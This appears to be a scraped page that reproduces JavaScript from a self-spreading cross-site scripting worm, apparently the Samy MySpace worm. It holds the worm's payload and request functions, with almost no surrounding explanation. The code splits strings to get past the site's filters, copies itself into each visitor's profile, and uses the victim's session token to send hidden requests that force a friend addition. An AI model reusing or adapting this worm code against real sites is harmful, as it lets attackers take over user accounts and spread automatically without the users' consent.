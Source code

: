 ```js


var AA=g();
var AB=AA.indexOf('m'+'ycode');
var AC=AA.substring(AB,AB+4096);
var AD=AC.indexOf('D'+'IV');
var AE=AC.substring(0,AD);
var AF;
if(AE)
{
    AE=AE.replace('jav'+'a',A+'jav'+'a');
    AE=AE.replace('exp'+'r)','exp'+'r)'+A);
    AF=' but most of all, samy is my hero. <d'+'iv id='+AE+'D'+'IV>'
}

var AG;

function main(){
    var AN=getClientFID();
    var BH='/index.cfm?fuseaction=user.viewProfile&friendID='+AN+'&Mytoken='+L;
    J=getXMLObj();
    httpSend(BH,getHome,'GET');
    xmlhttp2=getXMLObj();
    httpSend2('/index.cfm?fuseaction=invite.addfriend_verify&friendID=11851658&Mytoken='+L,processxForm,'GET')
}
```
### processxForm
```js
function processxForm(){
    if(xmlhttp2.readyState!=4)
    {
        return
    }
    var AU=xmlhttp2.responseText;
    var AQ=getHiddenParameter(AU,'hashcode');
    var AR=getFromURL(AU,'Mytoken');
    var AS=new Array();
    AS['hashcode']=AQ;
    AS['friendID']='11851658';
    AS['submit']='Add to Friends';
    httpSend2('/index.cfm?fuseaction=invite.addFriendsProcess&Mytoken='+AR,nothing,'POST',paramsToString(AS))
}
```
### httpSend2
```js
function httpSend2(BH,BI,BJ,BK){
    if(!xmlhttp2)
    {
        return false
    }
    eval('xmlhttp2.onr'+'eadystatechange=BI');
    xmlhttp2.open(BJ,BH,true);
    if(BJ=='POST')
    {
        xmlhttp2.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
        xmlhttp2.setRequestHeader('Content-Length',BK.length)}xmlhttp2.send(BK);
    return true
}
```